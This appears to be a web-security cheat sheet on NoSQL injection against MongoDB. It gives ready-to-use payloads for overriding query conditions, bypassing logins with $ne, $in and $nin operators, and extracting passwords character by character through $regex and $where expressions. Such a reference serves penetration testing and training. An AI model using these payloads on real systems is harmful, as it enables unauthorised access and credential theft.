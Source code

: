 ```yaml
---
title: NoSQL Injection
description: Similar to SQL injection, but targeting databases that don't use traditional relational table structures.
---
```

Similar to SQL injection, NoSQL injection targets databases that don’t follow traditional relational table structures. If untrusted user input is directly included in a NoSQL query, an attacker may be able to modify the query's logic.

NoSQL injection affects NoSQL database such as MongoDB, Apache Cassandra.

There are two main types of NoSQL injection:

- **Syntax Injection**: Breaking out of the intended query structure to alter its behaviour.
- **Operator Injection**: Injecting NoSQL-specific operators (e.g., `$ne`, `$gt`) to manipulate query results or bypass conditions.

## MongoDB
MongoDB is a NoSQL database that stores data in documents instead of tables. Each document uses a key-value pair structure. e.g.
```json
{
	"_id" : ObjectId("5f077332de2cdf808d26cd74"), 
	"username" : "lphillips", 
	"first_name" : "Logan", 
	"last_name" : "Phillips", 
	"age" : "65", 
	"email" : "lphillips@example.com" 
}
```
Documents are grouped into collections, and multiple collections form a database.

### Querying database
```
['last_name' => 'Sandler']
```

```
['gender' => 'male', 'last_name' => 'Phillips']
```

```
['age' => ['$lt'=>'50']]
```

### Query Operators
- `$where` - Matches documents that satisfy a JavaScript expression.
- `$ne` - Matches all values that are not equal to a specified value.
- `$in` - Matches all of the values specified in an array.
- `$regex` - Selects documents where values match a specified regular expression.

[MongoDB Operator Reference](https://www.mongodb.com/docs/manual/reference/operator/query/)
## Exploit
### Syntax Injection
**Testing how the application parses and handle unexpected input**

Injecting in the url:
```
'"`{ ;$Foo} $Foo \xYZ
```

Injecting in json:
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

Fuzzing individual characters
```
'
"
\
{
}
[
]
:
,
$
.
;
(
)

```

**Testing conditional behaviour**

The backend my run something like:
```js
this.category == 'Gifts' && this.limit == 3
```

Overriding existing conditions
```
' && 1 == 1
' && '1' == '1
' || 1 == 1
' || '1' == '1
' || 1 || '
' || '1' == '1
```

 **Extract the password character by character.**
```css
admin' && this.password[0] == 'a' || 'a'=='b
```

**Check if password contains digits**
```css
admin' && this.password.match(/\d/) || 'a'=='b
```
### Operator Injection

#### `$ne`

```json
{
	"username": "admin",
	"password": {
		"$ne": "xyz"
	}
}
```

```css
username=admin&password[$ne]=xyz
```

#### `$in`
```json
{
	"username": {
		"$in":[
			"admin",
			"ADMIN"
		]
	},
	
	"password":{
		"$ne": "xyz"
	}
}
```

```css
username[$in][]=admin&username[$in][]=ADMIN&password[$ne]=xyz
```

#### `$nin`
```json
{
	"username":{
		"$nin":[
			"admin",
			"ADMIN",
			"wiener"
		]
	},

	"password":{
		"$ne": "xyz"
	}
}
```

```css
username[$nin][]=admin&username[$nin][]=ADMIN&username[$nin][]=wiener&password[$ne]=xyz
```

####  `$regex`

Start with `s`:
```json
"$regex": "^s"
```

Character length:
```json
"$regex": "^.{7}$"
```

Guessing word
```json
"$regex": "^c.......$"
```

#### `$where`

Return first object and first character is `a`
```json
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

Find length
```json
"$where":"Object.keys(this)[0].length == 1"
```

Finding the value 
```json
"$where": "this[Object.keys(this)[4]][0] == 'a'"
```


## Link
- [MongoDB Operator Reference](https://www.mongodb.com/docs/manual/reference/operator/query/)